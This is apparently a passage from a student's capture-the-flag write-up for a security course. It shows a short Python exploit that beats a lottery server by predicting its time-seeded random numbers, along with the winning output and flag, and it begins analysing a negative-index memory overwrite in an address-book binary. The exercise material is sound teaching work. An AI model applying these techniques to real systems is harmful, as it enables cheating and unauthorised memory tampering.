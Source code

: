 C program `guess.c` to generate numbers:

```C++
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main() {
   srand(time(NULL));
   printf("%d", rand() % 100 + 1);
   return 0;
}
```

Python script to exploit server:
```Python
for i in range(7):
   r.sendline(RST)
   # necessary to get guess before sending NAME due to latency
   guess = check_output(['./guess'])
   r.sendline(NAME)
   r.sendline(PLY)
   r.sendline(guess)
```

Execution:

```bash
$ python xpl.py
...
$ $ $ KACHING! CONGRATULATIONS YOU HACKED THE JACKPOT!!! $ $ $

$ * $ * $ YOU'RE A MILLIONAIRE! $ * $ * $
cs2107{eV3rYdAy_1m_bUfF3r1nG}
...
```

### D.4 Address Book (12 Points)

The flag being displayed is controlled by whether a global variable, `is_premium_user`, is set. Using `gdb` we can find the addresses of all the global variables, which ends up helping us form the exploit.

```bash
(gdb) p &is_premium_user
$1 = (int *) 0x6020ac <is_premium_user>
(gdb) p &num_contacts
$2 = (int *) 0x6020b0 <num_contacts>
(gdb) p &contacts
$3 = (struct Contact (*)[20]) 0x6020c0 <contacts>
(gdb) p &contacts[-1]
$4 = (struct Contact *) 0x602098
```

Looking at the last result, we can see that negative indexing still works on the `Contact` array `contacts`, so if we can find a way to make `num_contacts = -1` then we can modify the value of `is_premium_user`. We then take a look at how `num_contacts` can be modified - especially in `delete_many_contacts()`.
